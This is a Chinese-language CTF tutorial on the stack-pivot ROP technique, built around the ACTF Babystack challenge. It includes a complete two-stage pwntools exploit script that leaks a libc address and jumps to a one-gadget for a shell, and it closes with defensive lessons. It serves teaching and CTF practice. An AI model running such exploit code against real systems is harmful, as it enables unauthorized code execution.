

# 栈迁移ROP利用技巧

## 概述

**栈迁移（Stack Pivot）** 是一种在**溢出空间受限**情况下的高级 ROP 利用技术。当你只有刚好能覆盖 `saved rbp` 和 `return address` 的溢出空间时，栈迁移就是唯一的出路！

就像是**借尸还魂**——虽然你只能修改一点点东西，但你可以让 CPU 误以为你写的那个缓冲区就是真正的栈！

---

## 什么是栈迁移？

### 问题场景

想象一下这个情况：
- 缓冲区大小：208 字节
- 程序只允许你输入 224 字节
- 溢出空间：224 - 208 = **16 字节**

这 16 字节刚好能覆盖：
- `saved rbp`（8 字节）
- `return address`（8 字节）

**问题来了**：16 字节你能放什么？根本放不了完整的 ROP 链啊！

这就是 **Off-by-Sixteen** 类型的漏洞——也是栈迁移技术的典型应用场景。

---

## 关键技术原理

### leave 和 ret 指令解析

要理解栈迁移，首先要搞懂 `leave` 和 `ret` 这两条指令：

#### leave 指令

```asm
leave
```

等价于：
```asm
mov rsp, rbp  ; 把栈顶指针拉到当前栈底
pop rbp       ; 弹出栈顶的值，赋给 rbp
              ; rsp 自动 +8
```

#### ret 指令

```asm
ret
```

等价于：
```asm
pop rip  ; 弹出栈顶的地址，直接跳转到那里执行
```

---

### 双重 leave; ret 的魔法

栈迁移的核心就是**双重 leave; ret** 的连锁反应！

让我们通过 ACTF Babystack 这道经典题目来理解：

#### 第一步：准备

我们需要：
1. 泄露栈地址（题目会打印缓冲区地址）
2. 找到 `leave; ret` 这个 gadget
3. 在缓冲区里布置完整的 ROP 链

#### 第二步：布局 Payload

我们构造这样的 Payload：

```
[缓冲区首地址]
+-------------------+
| 垃圾数据（8字节）  |  <-- 第二次 leave 的 pop rbp 会用这个
+-------------------+
| pop rdi; ret      |  <-- 真正的 ROP 链从这里开始
+-------------------+
| puts_got          |  <-- 参数
+-------------------+
| puts_plt          |  <-- 调用 puts
+-------------------+
| main_addr         |  <-- 返回 main
+-------------------+
| ...（填充）       |
+-------------------+
| 栈地址            |  <-- saved rbp 位置，填入我们泄露的地址
+-------------------+
| leave; ret gadget |  <-- return address 位置
+-------------------+
```

#### 第三步：第一次 leave; ret（程序天然执行）

程序执行到 main 函数结尾，天然会执行 `leave; ret`：

1. `mov rsp, rbp` → rsp 回到当前的 rbp
2. `pop rbp` → 从栈顶（也就是我们覆盖的 saved rbp 位置）读取值
   - **关键**：这里我们填的是**缓冲区的地址**！
   - 现在 rbp 被改成了我们的缓冲区地址！
3. `ret` → 从栈顶读取返回地址（我们填的是 `leave; ret` gadget）
   - 跳转到 `leave; ret` gadget 继续执行

#### 第四步：第二次 leave; ret（我们控制的）

现在执行到我们布置的 `leave; ret` gadget：

1. `mov rsp, rbp` → **关键一步！**
   - 现在 rbp 已经是我们的缓冲区地址了！
   - 执行后，rsp 直接飞到了缓冲区首地址！
2. `pop rbp` → 从当前栈顶（缓冲区开头）读 8 字节垃圾数据
   - rsp 自动 +8，指向我们的 ROP 链开头！
3. `ret` → 弹出栈顶的值，就是我们的 `pop rdi; ret`！

**完美！** 现在程序开始执行我们精心布置的 ROP 链了！

---

## 完整利用流程

让我们以 ACTF Babystack 为例，完整走一遍流程：

### 阶段一：泄露 Libc 地址

```python
from pwn import *
from LibcSearcher import LibcSearcher

# 设置目标架构
context(arch='amd64', os='linux', log_level='debug')

# 连接目标
io = connect('node5.buuoj.cn', 29780)

# 关键地址
offset = 0xd0                  # 缓冲区大小 208 字节
rdi_addr = 0x400ad3            # pop rdi; ret
leave_ret = 0x400a18           # leave; ret gadget
main_addr = 0x4008F6           # main 函数地址

# 获取 GOT 和 PLT
elf = ELF('./pwn')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# ==================== STAGE 1: 泄露 Libc ====================

# 发送 224 绕过边界检查
io.recvuntil(b'>')
io.sendline(b'224')

# 获取泄露的栈地址
io.recvuntil(b'Your message will be saved at')
stack_addr = io.recvline().strip()
stack_addr = int(stack_addr, 16)
print(f'[*] Leaked Stack Address: {hex(stack_addr)}')

# 构造 Payload
io.recvuntil(b'>')

# 在缓冲区里布置 ROP 链
payload = b'a'*0x8                       # 垃圾数据（第二次 pop rbp 用）
payload += p64(rdi_addr)                 # pop rdi; ret
payload += p64(puts_got)                 # 参数：puts 的 GOT 地址
payload += p64(puts_plt)                 # 调用 puts
payload += p64(main_addr)                # 返回 main

# 填充到 208 字节
payload += b'a'*(offset - len(payload))

# 栈迁移关键部分
payload += p64(stack_addr)               # saved rbp：设为缓冲区地址
payload += p64(leave_ret)                # ret：leave; ret gadget

# 发送 Payload
io.send(payload)

# 获取泄露的 puts 真实地址
io.recvuntil(b'Byebye~\n')
puts_addr = io.recvline().strip()
puts_addr = u64(puts_addr.ljust(8, b'\x00'))
print(f'[*] Leaked Puts Address: {hex(puts_addr)}')

# 计算 libc 基址和 one gadget
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
execve = libc_base + 0x4f2c5  # 经典 one gadget
print(f'[*] Libc Base: {hex(libc_base)}')
print(f'[*] One Gadget: {hex(execve)}')
```

### 阶段二：获取 Shell

```python
# ==================== STAGE 2: 获取 Shell ====================

# 程序回到 main 了，再来一次
io.recvuntil(b'>')
io.sendline(b'224')

# 重新获取栈地址（ASLR 可能会变）
io.recvuntil(b'Your message will be saved at')
stack_addr = io.recvline().strip()
stack_addr = int(stack_addr, 16)
print(f'[*] Stage 2 Stack Address: {hex(stack_addr)}')

# 构造第二阶段 Payload
io.recvuntil(b'>')

payload = b'a'*0x8                       # 垃圾数据
payload += p64(execve)                   # 直接跳 one gadget
payload += b'a'*(offset - len(payload))  # 填充
payload += p64(stack_addr)               # 栈迁移
payload += p64(leave_ret)

io.send(payload)

# 拿到 Shell！
io.interactive()
```

---

## 栈迁移图解

让我们用流程图更直观地理解：



---

## 关键要点总结

### 栈迁移三要素

1. **泄露栈地址** - 需要知道缓冲区在哪里
   - 有时程序会直接打印（像这道题）
   - 有时需要用格式化字符串漏洞泄露
   - 有时需要通过其他方式推测

2. **找到 leave; ret gadget** - 这是核心工具
   - 用 ROPgadget 找：`ROPgadget --binary ./pwn | grep "leave ; ret"`
   - 或者找等价的指令序列

3. **在缓冲区布置完整 ROP 链** - 这才是真正的 Payload
   - 虽然溢出空间小，但缓冲区大啊！
   - 把真正的 ROP 链放在缓冲区里

---

## 安全启示

从这道题我们能学到什么？

### 1. 假边界防御很危险

题目里程序员写了：
```c
if (nbytes <= 0xE0) {  // 0xE0 = 224
    read(0, s, nbytes);
}
```

看起来很安全，但缓冲区只有 208 字节！

**教训**：要用 `sizeof(s)` 这种动态获取，不要硬编码！

### 2. 信息泄露是大忌

程序主动把栈地址打印出来了：
```c
printf("Your message will be saved at %p\n", s);
```

这直接打破了 ASLR 的保护！

**教训**：不要把敏感地址打印给用户看！

### 3. One Gadget 很方便但有条件

One Gadget 虽然爽，但它对环境有要求：
- 某些寄存器需要是特定的值
- 栈布局需要满足条件

如果崩溃了，可能是因为条件不满足，可以：
- 用 GDB 动态调试看
- 换一个 One Gadget 偏移试试

---

## 相关概念

- [[基本ROP]] - ROP 的基础
- [[中级ROP]] - 更进阶的 ROP 技术
- [[栈溢出原理]] - 栈溢出的原理
- [[C语言函数调用栈（二）]] - 64 位调用约定
- [[获取地址]] - 各种泄露地址的方法

---

## 参考资料

- CTF Wiki - https://ctf-wiki.org
- ACTF Babystack 题目
- Google Gemini 分析报告
- 各种 CTF 比赛的 pwn 题目
